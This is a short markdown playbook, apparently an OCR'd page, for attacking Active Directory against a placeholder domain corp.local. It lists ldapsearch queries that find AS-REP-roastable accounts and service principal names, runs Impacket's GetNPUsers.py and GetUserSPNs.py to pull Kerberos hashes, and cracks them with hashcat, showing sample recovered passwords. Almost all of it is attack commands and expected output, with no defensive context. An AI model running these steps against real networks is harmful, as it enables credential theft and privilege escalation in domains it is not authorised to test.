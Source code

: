 #### Impacket’s GetNPUsers.py (AS-REP Roasting)  
```bash
python3 GetNPUsers.py corp.local/ -no-pass -outputfile asrep.hash
```
- **Expected Output**:  
  ```
  [+] svc_legacy@corp.local
  [+] Saved hash to asrep.hash
  ```
#### Crack AS-REP with Hashcat  
```bash
hashcat -m 18200 asrep.hash /path/to/wordlist.txt
```
- **Crack Output Example**:  
  ```
  svc_legacy:LegacyP@ss!
  ```

### Step-by-Step Guide  

#### 1. Check for AS-REP Roastable Accounts  
```bash
ldapsearch -x -H ldap://DC01.corp.local -b "DC=corp,DC=local" "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" sAMAccountName
```
- **Expected Output**:  
  ```
  sAMAccountName: svc_legacy
  sAMAccountName: svc_oldjr
  ```
- **If Output Present**: Run `GetNPUsers.py`.  
- **Else**: Skip to Kerberoast.

#### 2. Kerberoasting  

1. **Identify SPNs**  
   ```bash
   ldapsearch -x -H ldap://DC01.corp.local -b "DC=corp,DC=local" "(&(objectCategory=computer)(servicePrincipalName=*))" sAMAccountName,servicePrincipalName
   ```
   - **Expected Output**:  
     ```
     SRV-SQL01$
     SRV-SQL02$
     SRV-EX01$
     ```
2. **Run GetUserSPNs.py**  
   ```bash
   python3 GetUserSPNs.py corp.local/jdoe:Password123 -request -outputfile spn_tickets.hash
   ```
3. **Crack with Hashcat**  
   ```bash
   hashcat -m 13100 spn_tickets.hash /path/to/rockyou.txt
   ```
4. **Interpret**: Determine if cracked account is privileged.
